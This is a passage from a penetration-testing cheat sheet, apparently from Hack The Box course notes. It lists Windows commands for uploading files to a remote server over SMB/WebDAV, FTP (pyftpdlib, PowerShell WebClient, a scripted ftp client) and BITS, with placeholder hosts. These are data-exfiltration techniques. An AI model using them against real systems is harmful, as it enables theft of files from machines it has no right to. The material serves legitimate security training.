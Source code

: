 		- Can avoid using this keyword if you specify a folder that exists on the server when connecting to it.  Ex: \\[Target_URL]\sharefolder


### Uploading Files using SMB
```powershell
C:\htb> copy [Input_File_Name] \\[Target_URL]\DavWWWRoot\

# OR
C:\htb> copy [Input_File_Name] \\[Target_URL]\[Target_Folder]\
```


## FTP

### Specify Option to Allow Clients to Upload Files for pyftpdlib
```bash
sudo python3 -m pyftpdlib --port 21 --write
```

### PowerShell Upload File
```powershell
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://[Target_Server_URL]/[Target_Dir]', '[Input_File]')
```

### OR Create Command File to Upload via FTP Client
```powershell
C:\htb> echo open [Target_IP] > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
..
C:\htb> echo PUT [Input_File_Name] >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
	ftp> open [Target_IP]
	
	Log in with USER and PASS first.
	
	ftp> USER anonymous
	ftp> PUT [Input_File]
	ftp> bye
```

## Misc

### BitsTransfer
```powershell
Import-Module BitsTransfer
Start-BitsTransfer -Source [Output_File] -Destination [Target_File_URL] -TransferType Upload
```

### BitsTransfer w/ Authentication
```powershell
Import-Module BitsTransfer
Start-BitsTransfer -Source [Target_File_URL] -Destination [Output_File] -TransferType Upload -Credential [Username\Domain]
```